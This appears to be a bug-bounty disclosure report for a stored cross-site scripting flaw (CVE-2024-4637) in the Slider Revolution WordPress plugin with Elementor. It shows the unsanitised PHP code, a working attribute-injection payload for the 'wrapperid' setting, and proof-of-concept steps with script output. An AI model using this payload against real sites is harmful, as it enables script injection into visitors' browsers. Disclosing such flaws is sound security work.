 # Post Report Info

- Link: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/revslider/slider-revolution-6710-authenticated-contributor-stored-cross-site-scripting-via-elementor-wrapperid-and-zindex
- CVE: 2024-4637
- Bounty: $434

# Slider Revolution Authenticated (Contributor+) Stored-XSS

The Slider Revolution plugin version: 6.7.9 is vulnerable to an Authenticated (Contributor+) Stored-XSS attack when used with Elementor. This is due to user-controlled elementor display setting being inserted into a HTML attribute without sanitization.

## Affected Plugin

Title: Slider Revolution
Users: >9,000,000 (Stated on website)
CodeCanyon Sales: >423,000 (https://codecanyon.net/item/slider-revolution-responsive-wordpress-plugin/2751380)
Version: 6.7.9
Slug: revslider
Link: https://www.sliderrevolution.com/

## Root Cause

In `admin/includes/shortcode_generator/elementor/elementor-widget.class.php` on lines 145 and 149 the user-controllable elementor display settings `wrapperid` and `zindex` respectively are obtained:

```php
$shortcode = $this->get_settings_for_display( 'shortcode' );
$wrapperid = $this->get_settings_for_display( 'wrapperid' );
$wrapperid = empty($wrapperid) ? '': 'id="' . $wrapperid . '" ';
$shortcode = do_shortcode( shortcode_unautop( $shortcode ) );

$zindex = $this->get_settings_for_display( 'zindex' );
$style = $zindex ? ' style="z-index:'.$zindex.';"' : '';
?>
```
These are then inserted into HTML attributes without sanitization on line 160:

```php
<div <?php echo $wrapperid; ?>class="wp-block-themepunch-revslider"<?php echo $style;?>><?php echo $shortcode; ?></div>
```

## Example Payload

For example an `wrapperid` of:
```
x"tabindex="1"autofocus=""onfocus="alert(`xss`)"x="
```

Will result in the following HTML:

```
<div id="x"tabindex="1"autofocus=""onfocus="alert(`xss`)"x="" ...
```

Resulting in JavaScript execution when the element is created and steals the focus automatically.

## Proof of Concept

1. Install and activate `elementor` and `revslider` plugins. Note slider revolution is only available as a paid plugin, cheapest place to get it is directly from their website https://account.sliderrevolution.com/portal/pricing/.
2. Modify the PoC Python script (below) with the info for your target, eg:
```
USER = 'user'
PASSWORD = 'user'
PAYLOAD_ID = 1
TARGET = 'http://wordpress.local:1337'
```
3. Run the PoC and visit the link to observe JavaScript execution.
```
❯ python3 revslider-xss.py
[+] Login Successful
[+] Nonce: 0cc5e97557
[+] Next Post ID: 247
[+] API Nonce: 83575f7c9c
{"id":247, ... }
[+] Post ID: 247
[+] Payload: 1
{'success': True, ... }
[+] Updated Post: 247
[+] Visit: http://wordpress.local:1337/?p=247
```
